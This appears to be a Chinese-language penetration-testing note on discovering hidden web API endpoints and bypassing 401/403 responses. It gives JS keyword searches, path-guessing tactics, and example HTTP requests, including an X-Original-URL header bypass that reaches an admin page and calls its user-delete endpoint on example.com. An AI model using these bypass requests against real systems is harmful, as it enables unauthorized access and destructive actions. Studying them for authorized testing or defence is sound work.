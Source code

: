 ## 1. 场景

- 一个完整的操作页面一般有增, 删, 改, 查功能的接口; 隐藏的接口可能存在未授权
- 无法登录的平台或者空白页

- 需要特定条件才能使用的功能, 如管理员权限


## 2. API 路径

### 2.1. 通用 API 查找

先使用 FindSmothing 查找 API 路径, 保存到本地后补全 BaseURL 和 ID

然后在 Burp 中拼接路径，使用所有协议跑一遍

放在 Open Multiple URLs 中手动访问

最后使用浏览器的控制台检索 JS 文件中的可能存在 API 调用的关键字

```
type:"POST"
type: "GET"
post("
get("
ashx?
ashx
url:
url:"
url:'
path:
path:"
path:'
action?
data
params
```

### 2.2. 根据当前业务的相似功能或历史数据包查找 API

遇到一个功能点没有找到隐藏接口

如某简历生成业务有保存，导出和上传功能

但是只找到了保存的 API `/v4/scrm/api/crowd/save` 

 那么可以尝试在 JS 文件中检索 `/v4/scrm/api/crowd` 

若没有则检索 `/scrm/api/crowd` 、`/api/crowd` 、`/crowd` 

> 检索时要加 `/` 在前没有就加在后面 `crowd/`
>
> 逐步缩小范围

找不到就猜，如检索 `/update` 、`/export` 

## 3. Bypass

HTTP Status Code 为 `200`, `401`, `403` 时可尝试 Bypass

### 3.1. 添加请求参数

无数据的情况下可在 Request Body 中添加请求参数

```http
GET /test?pageNo=1&pageSize=10 HTTP/2
Host: example.com


```

```http
POST /test HTTP/2
Host: example.com

pageNo=1&pageSize=10
```

```http
POST /test HTTP/2
Host: example.com

{
" pageNo" : 1,
"pageSize": 10,
}
```

### 3.3. X-Original-URL

访问管理员页面返回 `403` 

```http
GET /admin HTTP/2
Host: example.com


```

```http
HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8

"Access denied"
```

在 Request Header 中添加 `X-Original-URL` 字段访问主页返回 `404` 

```http
GET / HTTP/2
Host: example.com
X-Original-URL: /invalid


```

```http
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8

"Not Found"
```

> 若返回 `200` 则证明 `X-Original-URL` 无效,
>
> 若返回 `404` 则证明 `X-Original-URL` 有效.

通过 `X-Original-URL` 访问管理员页面

```http
GET / HTTP/2
Host: example.com
X-Original-URL: /admin


```

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8

<!DOCTYPE html>
<html>
<a href="/admin/delete?username=carlos">Delete</a>
</html>
```

访问管理员页面中的 API

```http
GET ?username=carlos HTTP/2
Host: example.com
X-Original-URL: /admin/delete


```

```http
HTTP/2 302 Found
Location: /admin


```

---

Reference Links

- [Js在漏洞挖掘中的作用-接口篇](https://mp.weixin.qq.com/s/tN7bi0gybtNNuU_G1gyBRQ)
- [干货 | 渗透中403/401页面绕过的思路总结](https://www.secpulse.com/archives/185440.html)